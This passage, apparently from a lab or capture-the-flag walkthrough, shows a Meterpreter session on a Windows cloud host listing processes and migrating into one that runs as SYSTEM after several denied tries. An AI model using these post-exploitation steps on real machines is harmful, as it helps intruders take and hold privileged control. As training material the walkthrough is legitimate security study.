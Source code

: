     708   592   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsm.exe
    724   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
    816   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
    884   692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
    932   692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
    1000  644   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\LogonUI.exe
    1020  692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
    1064  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
    1164  692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
    1296  692   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
    1332  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
    1396  692   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
    1456  544   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
    1468  692   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\XenTools\LiteAgent.exe
    1584  1296  cmd.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\cmd.exe
    1612  692   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
    1940  692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
    2080  816   WmiPrvSE.exe
    2248  2016  powershell.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
    2336  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
    2364  692   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE
    2556  692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
    2560  692   vds.exe               x64   0        NT AUTHORITY\SYSTEM
    2680  692   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM
    3032  692   TrustedInstaller.exe  x64   0        NT AUTHORITY\SYSTEM

    meterpreter > 

pick one of the process that's running by user NT AUTHORITY\SYSTEM at the bottom of the list and run the migrate command against it.

It takes a few tries to success

    meterpreter > migrate 3032
    [*] Migrating from 2248 to 3032...
    [-] core_migrate: Operation failed: Access is denied.
    meterpreter > migrate 2680
    [*] Migrating from 2248 to 2680...
    [-] core_migrate: Operation failed: Access is denied.
    meterpreter > migrate 2560
    [*] Migrating from 2248 to 2560...
    [-] core_migrate: Operation failed: Access is denied.
    meterpreter > migrate 2556
    [*] Migrating from 2248 to 2556...
    [-] core_migrate: Operation failed: Access is denied.
    meterpreter > migrate 1612
    [*] Migrating from 2248 to 1612...
    [*] Migration completed successfully.
    meterpreter > 
